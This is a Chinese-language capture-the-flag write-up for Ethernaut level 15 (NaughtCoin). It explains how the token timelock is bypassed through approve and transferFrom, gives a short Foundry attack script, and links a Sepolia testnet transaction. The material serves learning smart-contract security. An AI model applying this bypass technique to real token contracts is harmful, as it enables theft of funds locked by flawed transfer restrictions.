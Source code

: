 
# Level 15

[The Ethernaut level 15](https://ethernaut.openzeppelin.com/level/15)

这一关的要求是绕过时间限制提取所有代币

仔细阅读合约发现，该合约实现了 ERC20 标准，并尝试防止初始代币持有者在给定的时间锁（`timeLock`）之前转移代币。合约在 `transfer` 函数添加了 `lockTokens` 修饰器，通过 `msg.sender == player` 限制了初始代币持有者提取时间。
但是，ERC20 合约不只一个转账函数。通过 `arrprove` 和 `transferFrom`，可以授权他人动用自己的币。
因此，只要初始代币持有者委托给第三者进行转账即可提取所有代币。

攻击脚本：
```
...
address player = vm.addr(privateKey);
address spender = vm.addr(privateKeySpender);

address levelAddr = 0x69f52ffB405AB5DaaEbDb1111C4F5ec64DaF37C8;
NaughtCoin level = NaughtCoin(levelAddr);

// 初始化 player
vm.startBroadcast(privateKey);
level.approve(spender, level.balanceOf(player));
vm.stopBroadcast();

// 初始化 spender
vm.startBroadcast(privateKeySpender);
level.transferFrom(player, spender, level.balanceOf(player));
vm.stopBroadcast();
```

完整代码见：[这里](../../../../ethernaut/script/Level15.s.sol)

链上记录：
- [level(`NaughtCoin`)](https://sepolia.etherscan.io/address/0x69f52ffB405AB5DaaEbDb1111C4F5ec64DaF37C8)
- [attack 交易](https://sepolia.etherscan.io/tx/0xe922107016ca833a231a94b896fcc14a80722afe1baf6501de83c27052f768f6)

